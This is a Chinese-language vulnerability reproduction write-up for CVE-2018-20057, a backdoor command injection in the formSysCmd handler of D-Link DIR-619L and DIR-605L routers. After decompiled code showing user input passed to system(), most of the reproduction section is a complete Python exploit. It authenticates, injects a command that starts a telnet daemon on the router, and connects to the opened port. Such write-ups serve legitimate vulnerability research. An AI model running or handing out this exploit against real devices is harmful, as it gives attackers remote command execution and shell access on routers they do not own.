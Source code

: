 # （CVE-2018-20057）D-Link DIR-619L&605L 命令注入漏洞

## 一、漏洞简介

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备，在/bin/boa文件的formSysCmd函数存在后门，导致攻击者在身份认证后可以通过访问

```
http://[ip]//goform/formSysCmd并指定sysCmd参数，从而实现远程命令注入。
```

固件下载地址：ftp://ftp2.dlink.com/PRODUCTS/DIR-619L/REVB/

本漏洞的路由器运行环境与CVE-2018-20056相同。

## 二、漏洞影响

D-LINK的DIR-619L Rev.B 2.06B1版本之前和DIR-605L Rev.B 2.12B1版本之前的设备。

## 三、复现过程

### 漏洞分析

查看ghidra中的反编译代码，在formSysCmd中，首先获取sysCmd参数，然后通过snprintf写入栈中变量，直接调用system函数执行该参数内容。

```
void formSysCmd(undefined4 uParm1)
{
  undefined4 uVar1;
  char *pcVar2;
  char acStack120 [104];

  uVar1 = websGetVar(uParm1,"submit-url",&DAT_004ac874);
  //获取post参数sysCmd，该参数可由用户控制
  pcVar2 = (char *)websGetVar(uParm1,"sysCmd",&DAT_004ac874);
  if (*pcVar2 != 0) {
    //将sysCmd写入栈中，并调用system执行
    snprintf(acStack120,100,"%s 2>&1 > %s",pcVar2,"/tmp/syscmd.log");
    system(acStack120);
  }
  websRedirect(uParm1,uVar1);
  return;
}
```

### 漏洞复现

该漏洞是在身份认证成功之后才可实现命令注入，需要先登录输入用户名和口令。由于是在qemu中模拟固件，通过apmib_get读取路由器本地配置无法实现，所以在劫持了apmib_get函数之后，login输入的用户名和密码暂时填为空。在真机上操作时，换成真实的用户名和密码即可。

```
import requests
import sys
import struct
import base64
from pwn import *
context(arch='mips',endian='big',log_level='debug')

ip='192.168.84.129'
port=101
def login(user,password):
    postData = {
    'login_name':'',
    'curTime':'1234',
    'FILECODE':'',
    'VER_CODE':'',
    'VERIFICATION_CODE':'',
    'login_n':user,
    'login_pass':base64.b64encode(password),
    }
    response = requests.post('http://'+ip+'/goform/formLogin',data=postData)
    #print response.url
def syscmd(cmd):
    postData = {
    'sysCmd':cmd,
    'submit-url':'1234',
    }
    response = requests.post('http://'+ip+'/goform/formSysCmd',data=postData)
    #print response.url
def inter():
    p=remote(ip,port)
    p.interactive()
if __name__ == "__main__":
    login('','')#这里要写实际的用户名和密码，例如admin 12345
    syscmd('telnetd -p '+str(port))
    inter()
```

另由于qemu模拟时，/dev下没有pty设备，导致telnet连接不能实现，但是端口是已经打开了：

![](resource/%EF%BC%88CVE-2018-20057%EF%BC%89D-Link%20DIR-619L&605L%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/15-20201014111413220.png)

![](resource/%EF%BC%88CVE-2018-20057%EF%BC%89D-Link%20DIR-619L&605L%20%E5%91%BD%E4%BB%A4%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/media/16-20201014111413219.png)